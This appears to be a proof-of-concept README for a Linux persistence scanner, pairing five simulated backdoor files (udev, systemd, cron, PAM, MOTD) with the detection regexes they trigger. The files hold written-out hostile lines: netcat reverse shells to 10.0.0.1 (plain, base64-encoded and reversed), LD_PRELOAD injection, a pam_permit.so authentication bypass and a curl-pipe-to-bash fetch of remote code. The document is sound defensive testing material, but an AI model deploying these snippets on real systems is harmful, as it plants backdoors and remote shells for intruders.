





# PersistenceScanner - Proof of Concept (PoC)

This document presents targeted Proof of Concept (PoC) test scenarios designed to validate **PersistenceScanner** against advanced evasion, obfuscation, and stealth persistence techniques. Every scenario maps directly to detection signatures in `rules.json`.

---

## PoC 1: Udev Macro Substitution Evasion

**Vector:** Attackers use Udev environment variables (`ENV{}`) and macro expansion (`$env{}`) combined with `eval` to hide reverse shell execution from simple string inspection.

**Simulated File:** `99-malicious.rules`

```ini
ACTION=="add", ENV{CMD}="nc -e /bin/bash 10.0.0.1 4444", RUN+="/bin/sh -c 'eval $env{CMD}'"
```

**Matched Indicators (`rules.json`):**
* `eval\s+(\$env|%E)\{` — **MEDIUM** (*Udev macro substitution evasion*)
* `nc\s+-e` — **CRITICAL** (*Reverse shell attempt via netcat*)

**PoC Evidence:**

[](assets/test-udev.png)

---

## PoC 2: Systemd Environment Injection & Encoded Evasion

**Vector:** Attackers utilize the `Environment=` directive to silently inject userland rootkit libraries (`LD_PRELOAD`) into the service context, completely separating the malicious injection from the seemingly benign Base64-encoded `ExecStart` command.

**Simulated File:** `backdoor.service`

```ini
[Unit]
Description=System Security Monitor

[Service]
Type=simple
Environment="LD_PRELOAD=/tmp/libhook.so"
ExecStart=/bin/bash -c 'echo "bmMgLWUgL2Jpbi9iYXNoIDEwLjAuMC4xIDQ0NDQ=" | base64 -d | bash'
Restart=always

[Install]
WantedBy=multi-user.target
```

**Matched Indicators (`rules.json`):**
* `LD_PRELOAD` — **CRITICAL** (*Shared library preloading injection*) - *Triggered via Environment field*
* `(/tmp|/dev/shm|/var/tmp|/run/user)/[a-zA-Z0-9._-]+` — **HIGH** (*Execution from temporary directory*) - *Triggered via Environment field*
* `\|\s*bash` — **HIGH** (*Piping raw remote stream directly into Bash shell execution*) - *Triggered via ExecStart field*
* `base64\s+(-d|--decode)` — **HIGH** (*Base64 decoding invocation, often used to conceal malicious commands.*) - *Triggered via ExecStart field*

**PoC Evidence:**

[](assets/test-systemd.png)

---

## PoC 3: Cron String Reversal & Process Tree Evasion

**Vector:** Attackers obfuscate payloads using string reversal (`rev | bash`) and schedule one-off tasks via `at` to break parent-child process tree visibility.

**Simulated File:** `root_cron`

```cron
* * * * * root echo "4444 1.0.0.01 hsab/nib/ cn" | rev | bash
@reboot root echo "/dev/shm/payload.sh" | at now + 1 minute
```

**Matched Indicators (`rules.json`):**
* `rev\s*\|\s*(ba)?sh` — **CRITICAL** (*Reversed command string piped directly into shell*)
* `\|\s*at\s+(now|[0-9:a-zA-Z+]+)` — **MEDIUM** (*Scheduling one-off tasks via 'at' daemon*)
* `@reboot` — **HIGH** (*Startup schedule directive*)
* `(/tmp|/dev/shm|/var/tmp|/run/user)/[a-zA-Z0-9._-]+` — **HIGH** (*Execution from temporary directory*)
* `\|\s*bash` — **HIGH** (*Piping raw remote stream directly into Bash shell execution*) - *Triggered via ExecStart field*

**PoC Evidence:**

[](assets/test-cron.png)

---

## PoC 4: PAM Authorization Bypass & Shared Memory Trigger

**Vector:** Attackers force unconditional authentication bypass (`pam_permit.so`) while executing hidden payloads located in shared RAM disk space (`/dev/shm`) upon login events.

**Simulated File:** `pam-test`

```pam
#%PAM-1.0
auth       sufficient   pam_permit.so
session    optional     pam_exec.so /dev/shm/.harvest.sh
```

**Matched Indicators (`rules.json`):**
* `auth\s+sufficient\s+pam_permit\.so` — **CRITICAL** (*PAM authentication bypass backdoor*)
* `pam_exec\.so` — **HIGH** (*Execution of external commands during PAM authentication*)
* `(/tmp|/dev/shm|/var/tmp|/run/user)/[a-zA-Z0-9._-]+` — **HIGH** (*Execution from temporary directory*)

**PoC Evidence:**

[](assets/test-pam.png)

---

## PoC 5: MOTD Dynamic Script Execution Persistence

**Vector:** Attackers place executable scripts into `/etc/update-motd.d/` that stealthily fetch and execute remote payloads with root permissions whenever any user logs in via SSH or interactive terminal.

**Simulated File:** `/tmp/pscanner-test/motd/99-backdoor`

```bash
#!/bin/sh
curl -s http://10.0.0.1/update.sh | bash
```

**Matched Indicators (`rules.json`):**
* `curl\s+-s` — **HIGH** (*Silent HTTP request via curl*)
* `\|\s*bash` — **HIGH** (*Piping raw remote stream directly into Bash shell execution*)

**PoC Evidence:**

[](assets/test-motd.png)